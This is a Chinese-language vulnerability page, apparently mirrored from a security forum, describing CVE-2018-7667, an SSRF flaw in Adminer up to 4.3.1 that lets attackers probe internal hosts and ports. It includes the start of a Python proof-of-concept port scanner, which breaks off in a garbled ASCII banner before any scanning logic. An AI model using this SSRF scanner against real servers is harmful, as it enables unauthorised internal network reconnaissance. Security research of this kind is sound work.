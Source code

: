 # （CVE-2018-7667）Adminer服务器端请求伪造漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2804](https://www.zhihuifly.com/t/topic/2804)

# （CVE-2018-7667）Adminer 服务器端请求伪造漏洞

## 一、漏洞简介

Adminer 4.3.1及之前版本存在服务器端请求伪造漏洞。攻击者可借助‘server’参数利用该漏洞绕过防火墙，确定内部主机，扫描其他服务器的端口。

## 二、漏洞影响

Adminer<=4.3.1

## 三、复现过程

### poc

```
import socket,re,ssl,warnings,subprocess,time
from platform import system as system_name 
from os import system as system_call

#Adminer Server Side Request Forgery

#PortMiner Scanner Tool

#by John Page (hyp3rlinx)

#ISR: ApparitionSec

#[hyp3rlinx.altervista.org](http://hyp3rlinx.altervista.org)

#=========================

#D1rty0Tis says hi.

#timeout

MAX_TIME=32

#ports to log

port_lst=[]

#Web server response often times out but usually means ports open.

false_pos_ports=[‘80’,‘443’]

BANNER=’’’

____            _   __  __ _

|  _  \         | | |  /  (*)

| |**) |**  _ __| |*| \  / |_ _ __   ___ _ __

|  ***/ _ | '**| **| |/| | | ’* \ / _ \ '**|

| |  | (*) | |  | |*| |  | | | | | |  **/ |

```
